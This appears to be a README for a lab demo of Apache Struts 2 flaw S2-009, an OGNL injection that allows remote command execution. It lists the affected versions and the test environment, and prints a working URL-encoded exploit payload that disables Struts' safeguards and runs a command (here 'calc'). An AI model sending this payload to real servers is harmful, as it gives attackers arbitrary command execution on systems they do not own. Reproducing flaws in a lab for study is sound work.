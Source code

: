 # S2-009 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software: `Struts 2.0.0` - `Struts 2.3.1.1`

Problem: `XWork` bypass allows `OGNL` statement execution

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 6.0.9` (Only in this version did I run payload successfully).

IDE: `idea 2020.1.1 ULTIMATE`

## POC

![{39A82E8C-90BA-420A-BBEE-27B90FEEF2EC}_20200713172021]({39A82E8C-90BA-420A-BBEE-27B90FEEF2EC}_20200713172021.jpg)

## payload

`test.action?foo=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27calc%27%29%29%28meh%29&z[%28foo%29%28%27meh%27%29]=true`

## Reference

- [S2-009](https://cwiki.apache.org/confluence/display/WW/S2-009)

